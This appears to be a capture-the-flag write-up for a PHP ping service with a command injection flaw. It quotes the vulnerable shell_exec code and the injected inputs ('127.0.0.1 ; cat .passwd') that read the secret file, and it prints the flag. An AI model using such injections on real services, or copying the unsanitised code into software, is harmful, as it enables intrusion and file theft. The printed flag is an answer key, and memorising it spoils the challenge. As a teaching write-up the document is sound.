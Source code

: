 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 6
---
```


> Find a vulnerability in this service and exploit it.
> The flag is on the `index.php` file.

![1](https://github.com/Knign/Write-ups/assets/110326359/c39a2154-0f61-483b-b922-b8067f6c8c5b)

Let's input `127.0.0.1` as the input field is suggesting.

![2](https://github.com/Knign/Write-ups/assets/110326359/7bdbfb6d-5555-416b-8fcc-128d84d901c5)

We can see that our input is used to execute a `ping` command.

We know the flag is on the `index.php` file. In order to `cat` the flag we need to use the `;` separator.
## User Input
```
127.0.0.1 ; cat index.php
```

![3](https://github.com/Knign/Write-ups/assets/110326359/f0d75377-bb63-4cc1-9309-34b6daefa1f6)

Looks like our input was processed properly. Let's check the source code.

![4](https://github.com/Knign/Write-ups/assets/110326359/22cb3fb7-b0bb-4d42-b737-580593a2a05f)

The source code reveals an interesting piece of code.
## PHP code
```php
<?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```
The line `shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'")` executes a shell command based on user input ($_POST["ip"]).

The line `"".file_get_contents(".passwd").""` reads the content of a file named `.passwd` and appends it to the `$flag` variable. 

Let's modify our input to `cat` the `.passwd` file.
## User Input
```
127.0.0.1 ; cat .passwd
```

![5](https://github.com/Knign/Write-ups/assets/110326359/1c040311-cc40-487b-b866-67abe9edd2ff)

## Flag
```
S3rv1ceP1n9Sup3rS3cure
```
